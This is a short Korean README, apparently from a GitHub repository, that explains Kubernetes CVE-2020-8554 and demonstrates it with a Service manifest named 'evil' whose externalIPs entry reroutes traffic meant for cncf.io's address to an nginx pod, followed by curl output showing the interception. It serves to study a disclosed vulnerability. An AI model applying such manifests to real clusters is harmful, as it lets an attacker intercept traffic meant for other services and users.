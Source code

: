 # 개요
* CVE-2020-8554 취약점

# 취약점 소개

* external IP를 할당하거나 status.loadBalancer.ingress.ip를 변경하면, externalIP를 호출되는 경우 공격자 pod로 라우팅
* 아래 예제는 cncf IP를 호출하면 nginx pod가 호출됨
* [예제코드 바로가기](./externalIP/)

```yaml
apiVersion: v1
kind: Service
metadata:
  name: evil
  namespace: default
spec:
  selector:
    app: nginx
  ports:
  - protocol: TCP
    port: 80
    targetPort: 80
  type: ClusterIP
  externalIPs:
  - 23.185.0.3 # http://cncf.io
```

```sh
netshoot pod# curl -I http://cncf.io
HTTP/1.1 200 OK
Server: nginx/1.14.2
```

# 참고자료
* https://github.com/kubernetes/kubernetes/issues/97076
* https://unit42.paloaltonetworks.com/cve-2020-8554/
* https://github.com/kubernetes-sigs/cloud-provider-kind
